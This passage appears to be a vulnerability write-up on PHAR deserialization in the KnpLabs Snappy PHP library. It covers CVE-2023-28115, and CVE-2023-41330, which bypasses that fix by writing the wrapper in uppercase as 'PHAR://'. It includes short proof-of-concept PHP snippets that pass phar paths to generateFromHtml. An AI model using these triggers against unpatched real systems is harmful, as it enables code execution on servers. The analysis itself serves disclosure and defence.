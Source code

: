 ```php
require __DIR__ . '/vendor/autoload.php';

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'phar://test.phar');
}catch(\Exception $e){}
?>
```

![image](https://hackmd.io/_uploads/r1XAOwuuxe.png)

### Is it fixed?

This patch was committed on the version 1.4.2 to fix CVE-2023-28115: [CVE-2023-28115 fix](https://github.com/KnpLabs/snappy/commit/1ee6360cbdbea5d09705909a150df7963a88efd6). Now prepareOutput function will checks if phar:// is in filename or not

![image](https://hackmd.io/_uploads/HkLAW1MOxl.png)

But the bug is still there. This is because the wrapper scheme is case-insensitive, according to [RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-6.2.2.1) Therefore, we can use an uppercase wrapper — for example, PHAR://.

![image](https://hackmd.io/_uploads/SJ8B7yGuxx.png)


If the vulnerable code uses strpos() for wrapper checks without normalizing the case, the check becomes bypassable. So, using PHAR:// instead of phar:// allows us to bypass the filter.

POC:

```php
<?php

...

use Knp\Snappy\Pdf;

$snappy = new Pdf('/usr/bin/wkhtmltopdf');
try{
    $snappy->generateFromHtml('<h1>Hello</h1>', 'PHAR://test.phar');
}catch(\Exception $e){}
?>
```

![image](https://hackmd.io/_uploads/Sy26hD_uxx.png)

And this is CVE-2023-41330. After that a commit to use parse_url on version 1.4.3 have fixed both above CVE

[CVE-2023-41330 fix](https://github.com/KnpLabs/snappy/commit/d3b742d61a68bf93866032c2c0a7f1486128b67e)
